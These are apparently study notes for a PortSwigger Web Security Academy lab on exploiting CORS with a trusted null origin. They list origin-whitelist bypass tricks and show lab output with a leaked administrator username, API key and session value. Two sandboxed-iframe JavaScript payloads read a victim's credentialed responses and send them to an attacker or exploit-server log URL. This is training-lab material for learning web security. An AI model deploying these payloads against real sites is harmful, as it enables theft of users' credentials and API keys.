 leaked info:
username :  administrator ,
apikey :  KAwdvlGps26X0quX8F9TqhqAIJYXRdTv ,
sessions : 9aPfTKXCEuhuiQ9167ChY3mBZpQsMBys

# excelent!


hint for WL bypass:
hackersnormal-website.com
normal-website.com.evil-user.net
Origin: null

creating null with snadboxed iframe:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

# 2. Lab: CORS vulnerability with trusted null origin
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

o solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server

find request for account details to reviels one api:
GET /accountDetails HTTP/1.1




1. craft exploit page:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0aa000210398a9bfc016255500d30017.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a2200a9031da9afc01d252a01560026.web-security-academy.net/exploit/log?key='+this.responseText;
};
</script>"></iframe>
```
